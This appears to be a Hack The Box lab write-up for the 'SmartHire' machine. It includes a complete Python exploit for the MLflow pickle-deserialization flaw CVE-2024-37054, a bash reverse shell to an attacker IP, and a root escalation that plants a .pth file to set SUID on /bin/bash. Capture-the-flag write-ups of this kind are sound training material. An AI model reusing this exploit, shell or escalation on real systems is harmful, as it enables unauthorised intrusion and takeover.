





## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
- [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Virtual Host (VHOST) Enumeration](#Virtual-Host-VHOST-Enumeration)
- [Initial Access](#Initial-Access)
    - [CVE-2024-37054: MLflow Unsecure Deserialization Remote Code Execution (RCE)](#CVE-2024-37054-MLflow-Unsecure-Deserialization-Remote-Code-Execution-RCE)
- [user.txt](#usertxt)
- [Enumeration (svcweb)](#Enumeration-svcweb)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [.pth File Injection](#pth-File-Injection)
- [root.txt](#roottxt)

## Summary

The box exposes two services: `Nginx` on port `80/TCP` redirecting to `smarthire.htb`, and `SSH` on port `22/TCP`. `Virtual Host` (`VHOST`) enumeration discovers a `models.smarthire.htb` subdomain protected by `HTTP Basic Authentication`. The credentials `admin:password` grant access to an `MLflow` tracking server at version `2.14.1`.

`CVE-2024-37054` is exploited to achieve `Remote Code Execution` (`RCE`) via `MLflow`'s `PyFunc` model loading mechanism. `MLflow` versions prior to `2.14.2` deserialize a `python_model.pkl` artifact using `pickle` without any integrity or signature verification. By registering a malicious model version whose artifact store contains a crafted `pickle` payload, the exploit triggers code execution in the context of the `MLflow` service when the application calls `mlflow.pyfunc.load_model()` during a prediction request. This lands a shell as `svcweb`.

Enumeration as `svcweb` reveals a `sudo` rule granting passwordless execution of `/usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *` as `root`. The script uses `site.addsitedir()` to register plugin directories as `Python` site directories before importing from them — including a `dev` plugin directory writable by the `devs` group, of which `svcweb` is a member. Python's `site` module processes `.pth` files in any registered site directory at import time, executing any line beginning with `import`. Writing a malicious `.pth` file containing `import os; os.system("chmod u+s /bin/bash")` into the writable `dev` directory causes it to be executed with `root` privileges when the `sudo` rule is invoked, setting the `SUID` bit on `/bin/bash` and granting a root shell via `bash -p`.

## Reconnaissance

### Port Scanning

The initial `Nmap` scan revealed only two open ports: `22/TCP` (`SSH`) and `80/TCP` (`HTTP`). The `HTTP` service immediately redirected to `smarthire.htb`, which was added to `/etc/hosts`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.46.232
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-17 12:04 +0200
Nmap scan report for 10.129.46.232
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 41:3c:e3:bb:88:70:99:7f:b8:96:59:48:9b:85:98:69 (ECDSA)
|_  256 d5:9d:fd:6b:be:d8:39:6f:3f:43:ab:0e:f6:3e:22:db (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://smarthire.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.46.232   smarthire.htb
```

## Enumeration of Port 80/TCP

- [http://smarthire.htb/](http://smarthire.htb/)

We checked the techstack using `WhatWeb` but it didn't revealed anything useful.

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://smarthire.htb/
http://smarthire.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.46.232], Script, Title[Overview | SmartHIRE], nginx[1.18.0]
```


### Virtual Host (VHOST) Enumeration

We used `ffuf` against `smarthire.htb` with a `Host` header fuzzing approach, filtering out the default `178`-byte response to isolate valid virtual hosts, which revealed the `models` subdomain returning a `401 Unauthorized`.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.smarthire.htb" -u http://smarthire.htb/ --fs 178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://smarthire.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.smarthire.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

models                  [Status: 401, Size: 137, Words: 11, Lines: 1, Duration: 188ms]
:: Progress: [151265/151265] :: Job [1/1] :: 389 req/sec :: Duration: [0:05:56] :: Errors: 0 ::
```

We also added `models.smarthire.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.46.232   smarthire.htb
10.129.46.232   models.smarthire.htb
```

`WhatWeb` confirmed the `WWW-Authenticate` header indicating `HTTP Basic Authentication` with the realm `mlflow`, identifying the protected service as an `MLflow` tracking server.

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://models.smarthire.htb/
http://models.smarthire.htb/ [401 Unauthorized] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.46.232], WWW-Authenticate[mlflow][Basic], nginx[1.18.0]
```


The credentials `admin:password` authenticated successfully, revealing the `MLflow` dashboard.

| Username | Password |
| -------- | -------- |
| admin    | password |



The `MLflow` version was identified as `2.14.1`, which falls within the vulnerable range for `CVE-2024-37054`.

| Version |
| ------- |
| 2.14.1  |

## Initial Access

### CVE-2024-37054: MLflow Unsecure Deserialization Remote Code Execution (RCE)

`CVE-2024-37054` is a `Remote Code Execution` (`RCE`) vulnerability in `MLflow` versions prior to `2.14.2` that stems from the unsafe deserialization of `pickle`-serialized model artifacts. When `MLflow` loads a `PyFunc` model via `mlflow.pyfunc.load_model()`, it reads the `python_model.pkl` file from the model's artifact store and deserializes it using `pickle.load()` without any integrity verification or signature checking. `Python`'s `pickle` format is inherently unsafe when loading untrusted data — the `__reduce__` method of any serialized object is called during deserialization, allowing arbitrary code execution. An attacker who can register a new model version in `MLflow` and supply a crafted artifact store can plant a malicious `python_model.pkl` that executes a reverse shell when the application calls `load_model()`. The trigger in this case was the `SmartHIRE` web application's `/predict` endpoint, which loads the registered model to perform candidate scoring — sending a prediction request with a valid session cookie caused the application to deserialize the malicious payload on the server side.

The exploit script registers a malicious model version under an existing registered model name. The artifact store is populated with a valid `MLmodel` manifest, support files, and the crafted `python_model.pkl`. The pickle payload implements `__reduce__` to return `(os.system, (cmd,))` — causing `os.system(cmd)` to be called on deserialization.

Browsing the `SmartHIRE` application, we registered an account and obtained a session cookie.

- [https://github.com/NiteeshPujari/CVE-2024-37054-MLflow-RCE/](https://github.com/NiteeshPujari/CVE-2024-37054-MLflow-RCE/)







A test `CSV` file was prepared to trigger the `/predict` endpoint, and the registered model name was identified from the `MLflow` dashboard.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/SmartHire/files]
└─$ cat > predict.csv << 'EOF'
experience,skills
60,"Python, Machine Learning, SQL"
EOF
```



| Model                     |
| ------------------------- |
| foobar-a8a1828d87f0-model |

Our custom exploit script was run against the `MLflow` tracking server, registering a new version of the existing model with the malicious artifact.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/SmartHire/files]
└─$ cat exploit.py 
#!/usr/bin/env python3
"""
CVE-2024-37054 - MLflow PyFunc Deserialization RCE
Targets MLflow < 2.14.2 via malicious python_model.pkl uploaded to the artifact store.
"""

import argparse
import os
import pickle
import sys
import tempfile
from pathlib import Path
from urllib.parse import urlparse

import requests

SESSION = requests.Session()


def parse_args():
    ap = argparse.ArgumentParser(
        description="CVE-2024-37054 MLflow RCE - registers a malicious PyFunc model"
    )
    ap.add_argument("-t", "--target", required=True,
                    help="MLflow tracking server base URL (e.g. http://models.smarthire.htb)")
    ap.add_argument("-a", "--auth", required=True,
                    help="Basic auth credentials as user:password")
    ap.add_argument("-n", "--name", required=True,
                    help="Registered model name to overwrite (e.g. foobar-a8a1828d87f0-model)")
    ap.add_argument("-c", "--cmd", required=True,
                    help="OS command to execute on the target")
    ap.add_argument("-e", "--experiment", default="default",
                    help="MLflow experiment name to use (default: default)")
    return ap.parse_args()


class MaliciousPayload:
    """Pickle gadget — executes self.cmd via os.system on deserialization."""
    def __init__(self, cmd):
        self.cmd = cmd

    def __reduce__(self):
        return (os.system, (self.cmd,))


def build_mlmodel(run_id: str) -> str:
    return (
        "artifact_path: model\n"
        "flavors:\n"
        "  python_function:\n"
        "    cloudpickle_version: 2.2.1\n"
        "    env:\n"
        "      conda: conda.yaml\n"
        "      virtualenv: python_env.yaml\n"
        "    loader_module: mlflow.pyfunc.model\n"
        "    python_model: python_model.pkl\n"
        "    python_version: 3.10.12\n"
        f"mlflow_version: 2.14.1\n"
        f"model_uuid: deadbeefdeadbeefdeadbeefdeadbeef\n"
        f"run_id: {run_id}\n"
        "utc_time_created: '2026-01-01 00:00:00.000000'\n"
    )


def build_model_dir(cmd: str, run_id: str, path: Path):
    path.mkdir(parents=True, exist_ok=True)

    with open(path / "python_model.pkl", "wb") as f:
        pickle.dump(MaliciousPayload(cmd), f)

    (path / "MLmodel").write_text(build_mlmodel(run_id))
    (path / "python_env.yaml").write_text(
        "python: 3.10.12\n"
        "build_dependencies:\n"
        "  - pip\n"
        "dependencies:\n"
        "  - -r requirements.txt\n"
    )
    (path / "requirements.txt").write_text("mlflow\ncloudpickle\n")
    (path / "conda.yaml").write_text(
        "channels:\n  - conda-forge\n"
        "dependencies:\n  - python=3.10.12\n  - pip\n"
        "name: mlflow-env\n"
    )


def api_get(base: str, path: str, params: dict = None) -> dict:
    r = SESSION.get(f"{base}{path}", params=params, timeout=30)
    r.raise_for_status()
    return r.json()


def api_post(base: str, path: str, body: dict) -> dict:
    r = SESSION.post(f"{base}{path}", json=body, timeout=30)
    r.raise_for_status()
    return r.json() if r.text else {}


def get_or_create_experiment(base: str, name: str) -> str:
    try:
        data = api_get(base, "/api/2.0/mlflow/experiments/get-by-name",
                       {"experiment_name": name})
        exp_id = data["experiment"]["experiment_id"]
        print(f"[*] Using existing experiment '{name}' ({exp_id})")
        return exp_id
    except requests.HTTPError:
        data = api_post(base, "/api/2.0/mlflow/experiments/create",
                        {"name": name})
        exp_id = data["experiment_id"]
        print(f"[+] Created experiment '{name}' ({exp_id})")
        return exp_id


def create_run(base: str, exp_id: str) -> dict:
    data = api_post(base, "/api/2.0/mlflow/runs/create",
                    {"experiment_id": exp_id, "start_time": 0})
    return data["run"]


def upload_artifact(base: str, artifact_uri: str, rel_path: str, local_path: Path):
    parsed = urlparse(artifact_uri)
    url = f"{base}/api/2.0/mlflow-artifacts/artifacts{parsed.path}/{rel_path}"
    with open(local_path, "rb") as f:
        r = SESSION.put(url, data=f.read(), timeout=60)
    r.raise_for_status()


def register_model_version(base: str, model_name: str,
                            source: str, run_id: str) -> str:
    try:
        api_post(base, "/api/2.0/mlflow/registered-models/create",
                 {"name": model_name})
        print(f"[+] Created registered model '{model_name}'")
    except requests.HTTPError:
        print(f"[*] Model '{model_name}' already exists — adding new version")

    data = api_post(base, "/api/2.0/mlflow/model-versions/create",
                    {"name": model_name, "source": source, "run_id": run_id})
    return data["model_version"]["version"]


def main():
    args = parse_args()

    user, _, password = args.auth.partition(":")
    SESSION.auth = (user, password)

    base = args.target.rstrip("/")

    print(f"[*] Target      : {base}")
    print(f"[*] Model name  : {args.name}")
    print(f"[*] Command     : {args.cmd}")

    exp_id = get_or_create_experiment(base, args.experiment)

    run = create_run(base, exp_id)
    run_id = run["info"]["run_id"]
    artifact_uri = run["info"]["artifact_uri"]
    print(f"[+] Run ID      : {run_id}")
    print(f"[+] Artifact URI: {artifact_uri}")

    with tempfile.TemporaryDirectory() as tmp:
        model_dir = Path(tmp) / "model"
        build_model_dir(args.cmd, run_id, model_dir)
        for f in sorted(model_dir.iterdir()):
            upload_artifact(base, artifact_uri, f"model/{f.name}", f)
            print(f"[+] Uploaded    : model/{f.name}")

    source = f"{artifact_uri}/model"
    version = register_model_version(base, args.name, source, run_id)
    print(f"[+] Registered  : '{args.name}' v{version}")
    print(f"[*] Payload fires on next mlflow.pyfunc.load_model() call against this model.")


if __name__ == "__main__":
    sys.exit(main())s
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/SmartHire/files]
└─$ python3 exploit.py -t http://models.smarthire.htb/ -a admin:password -n foobar-a8a1828d87f0-model -c 'bash -c "bash -i >& /dev/tcp/10.10.16.10/6969 0>&1"'
[*] Target      : http://models.smarthire.htb
[*] Model name  : foobar-a8a1828d87f0-model
[*] Command     : bash -c "bash -i >& /dev/tcp/10.10.16.10/6969 0>&1"
[+] Created experiment 'default' (768499909086807624)
[+] Run ID      : 4aa17e128a7c4a7c8162f3b1285608e1
[+] Artifact URI: mlflow-artifacts:/768499909086807624/4aa17e128a7c4a7c8162f3b1285608e1/artifacts
[+] Uploaded    : model/MLmodel
[+] Uploaded    : model/conda.yaml
[+] Uploaded    : model/python_env.yaml
[+] Uploaded    : model/python_model.pkl
[+] Uploaded    : model/requirements.txt
[*] Model 'foobar-a8a1828d87f0-model' already exists — adding new version
[+] Registered  : 'foobar-a8a1828d87f0-model' v4
[*] Payload fires on next mlflow.pyfunc.load_model() call against this model.
```

A `curl` request with the authenticated session cookie which we pulled out from within the `Developer Tools` triggered the `/predict` endpoint, causing the application to load the malicious model version and deserialize the payload.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/SmartHire/files]
└─$ curl -s -b "session=.eJyrVkrOzy1IzKtUslJKy89PSixS0lEqLU4tis9MAQolWiQaWhhZpFiYpxlAJfISc1MRimsBvJEVAQ.agnDdQ.knejdQwXJ53VbLUOSkhviI6QX6g" \
  -X POST http://smarthire.htb/predict \
  -F "file=@predict.csv"
```

The reverse shell connected back as the `svcweb` service account.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.46.232] 32808
bash: cannot set terminal process group (1019): Inappropriate ioctl for device
bash: no job control in this shell
svcweb@smarthire:/var/www/smarthire.htb$
```

Then we upgraded the our session to a full interactive `TTY` using `Python`'s `pty` module.

```shell
svcweb@smarthire:/var/www/smarthire.htb$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<htb$ python3 -c 'import pty;pty.spawn("/bin/bash")'
svcweb@smarthire:/var/www/smarthire.htb$ ^Z
zsh: suspended  nc -lnvp 4444
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 4444

svcweb@smarthire:/var/www/smarthire.htb$ 
svcweb@smarthire:/var/www/smarthire.htb$ export XTERM=xterm
svcweb@smarthire:/var/www/smarthire.htb$
```

Additionally we added our `SSH` public key to `svcweb`'s `authorized_keys` to establish a stable `SSH` session.

```shell
svcweb@smarthire:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN' > .ssh/authorized_keys
```

```shell
┌──(kali㉿kali)-[~]
└─$ ssh svcweb@smarthire.htb
The authenticity of host 'smarthire.htb (10.129.46.232)' can't be established.
ED25519 key fingerprint is: SHA256:eIBuWQhRmbLzOYVJvpUmSQN5qZ/ZcwoK125zwEYBd48
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'smarthire.htb' (ED25519) to the list of known hosts.
Last login: Sun May 17 14:20:21 2026 from 10.10.16.10
svcweb@smarthire:~$
```

## user.txt

```shell
svcweb@smarthire:~$ cat user.txt
127bf9a4951576669a958f3019887dfb
```

## Enumeration (svcweb)

Confirming identity showed `svcweb` running as `uid=1000` with membership in two non-default groups: `mlflowweb` (gid `1001`) and `devs` (gid `1002`). The `devs` group membership would become the key to the privilege escalation path.

```shell
svcweb@smarthire:/var/www/smarthire.htb$ id 
uid=1000(svcweb) gid=1000(svcweb) groups=1000(svcweb),1001(mlflowweb),1002(devs)
```

```shell
svcweb@smarthire:/var/www/smarthire.htb$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
syslog:x:106:113::/home/syslog:/usr/sbin/nologin
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tss:x:109:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:110:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:111:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
svcweb:x:1000:1000:smarthire_user:/home/svcweb:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

`sudo -l` revealed a single rule granting passwordless execution of `/usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *` as `root`. The wildcard at the end allows any argument to be passed.

```shell
svcweb@smarthire:~$ sudo -l 
Matching Defaults entries for svcweb on smarthire:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User svcweb may run the following commands on smarthire:
    (root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
```

Reviewing `mlflowctl.py` revealed the exploitation path. The script calls `site.addsitedir()` on each subdirectory under `plugins/` before importing any modules. `Python`'s `site.addsitedir()` adds the given path to `sys.path` and — critically — processes any `.pth` files found in that directory. A `.pth` file whose content begins with `import` causes `Python` to execute the remainder of that line as a statement at import time. This means that writing a `.pth` file containing `import os; os.system(...)` into any directory registered via `addsitedir()` will execute the command when `Python` next starts and processes site directories.

- [https://docs.python.org/3/library/site.html](https://docs.python.org/3/library/site.html)

```shell
svcweb@smarthire:~$ cat /opt/tools/mlflow_ctl/mlflowctl.py
#!/usr/bin/env python3
"""
MLFLOW-CTL: Operational interface for managing the MLflow service.
Supports a pluggable extension model for environment-specific logic.
For changes or plugin requests, please contact the Platform Team.
"""

from pathlib import Path
import sys
import site

BASE_DIR = Path(__file__).resolve().parent
PLUGINS_DIR = BASE_DIR / "plugins"

# make plugins importable
for path in PLUGINS_DIR.iterdir():
    if path.is_dir():
        site.addsitedir(str(path))

def print_usage():
    print("Usage: mlflowctl.py [status|backup-models|restart]")
    sys.exit(1)

def main():
    import mlflow_actions, backup_models

    if len(sys.argv) < 2:
        print_usage()

    action = sys.argv[1]

    if action == "status":
        mlflow_actions.check_status()
    elif action == "backup-models":
        print("[*] Running backup via backup_models plugin...")
        backup_models.run()
    elif action == "restart":
        mlflow_actions.restart()
    else:
        print(f"[!] Unknown action: {action}")
        print_usage()

if __name__ == "__main__": main()
```

Running `mlflowctl.py` with the wildcard argument confirmed the script executed successfully.

```shell
svcweb@smarthire:~$ sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
[!] Unknown action: user.txt
Usage: mlflowctl.py [status|backup-models|restart]
```

## Privilege Escalation to root

### .pth File Injection

`.pth File Injection` abuses `Python`'s `site` module behaviour when `site.addsitedir()` is used to register directories at runtime. When `Python` processes a site directory, it reads all `.pth` files within it. Lines in a `.pth` file that begin with `import` are treated as `Python` statements and executed immediately — not merely added to `sys.path`. This is a legitimate feature of `Python`'s path configuration mechanism, but becomes a privilege escalation vector when an attacker controls a directory that is passed to `site.addsitedir()` in a `sudo`-accessible script, because any `.pth` file written there will be executed as `root` the next time the script runs.

Inspecting the `plugins` directory confirmed that the `dev` subdirectory was writable by the `devs` group, of which `svcweb` was a member.

```shell
svcweb@smarthire:~$ ls -la /opt/tools/mlflow_ctl/plugins/
total 16
drwxr-xr-x 4 root root 4096 Feb 19 18:10 .
drwxr-xr-x 3 root root 4096 Feb 19 18:16 ..
drwxr-xr-x 3 root root 4096 Feb 20 09:26 core
drwxrwxr-x 2 root devs 4096 May 12 15:22 dev
```

```shell
svcweb@smarthire:~$ ls -la /opt/tools/mlflow_ctl/
total 16
drwxr-xr-x 3 root root 4096 Feb 19 18:16 .
drwxr-xr-x 3 root root 4096 Feb 19 15:50 ..
-rwxr-xr-- 1 root root 1080 Feb 19 18:16 mlflowctl.py
drwxr-xr-x 4 root root 4096 Feb 19 18:10 plugins
```

A malicious `.pth` file was written to the writable `dev` plugin directory. The payload sets the `SUID` bit on `/bin/bash`, which persists after the script exits and allows spawning a privileged shell.

```shell
svcweb@smarthire:~$ cat > /opt/tools/mlflow_ctl/plugins/dev/evil.pth << 'EOF'
import os; os.system("chmod u+s /bin/bash")
EOF
```

Invoking the `sudo` rule caused `Python` to process the `.pth` file via `site.addsitedir()`, executing the payload as `root`.

```shell
svcweb@smarthire:~$ sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py status
[*] Checking MLflow service status...

[+] MLflow service status: active
[+] MLflow container status: 'Up 5 hours'
```

The `SUID` bit was confirmed on `/bin/bash`. Running `bash -p` launched a shell preserving the `root` effective `UID`.

```shell
svcweb@smarthire:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

```shell
svcweb@smarthire:~$ /bin/bash -p
bash-5.1#
```

## root.txt

```shell
bash-5.1# cat root.txt 
7e452ee38fd3d0014805682fca6d5d17
```